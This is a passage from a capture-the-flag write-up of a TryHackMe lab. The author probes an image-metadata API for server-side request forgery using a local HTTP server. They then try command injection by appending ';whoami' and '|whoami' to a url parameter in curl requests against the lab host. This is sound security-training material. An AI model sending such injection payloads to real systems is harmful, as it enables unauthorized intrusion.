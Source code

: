 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Great-Escape/images/a4.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Great-Escape/images/a5.png)

**We can see that, when we submit an image, it made a POST request to `/api/exif` to view the metadata inside that image!**

**Let's check out the `/api/exif`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Great-Escape/images/a6.png)

Hmm... 500 Internal Server Error?

**Let's try `From URL`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Great-Escape/images/a7.png)

**When we use the `enter a URL to an image`, it sent a GET request to `/api/exif`, and the GET parameter is `url`.**

Mmm... **What if we let it send a GET request to my attacker machine?**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Great-Escape/images/a8.png)

Ohh!!! It can reach to my attacker machine!

**Also, I suspect that it's using `curl` to fetch an image!**

If it's indeed using `curl` to fetch an image, then it may suffer **command injection**!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# curl 'http://the-great-escape.thm/api/exif?url=http://127.0.0.1;whoami'
An error occurred: 127.0.0.1;whoami
                Response was:
                ---------------------------------------
                <-- -1 http://127.0.0.1;whoami
Response : 
Length : 0
Body : (empty)
Headers : (0)
```

Hmm... Maybe pipe (`|`)?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# curl 'http://the-great-escape.thm/api/exif?url=http://127.0.0.1|whoami'  
        
```
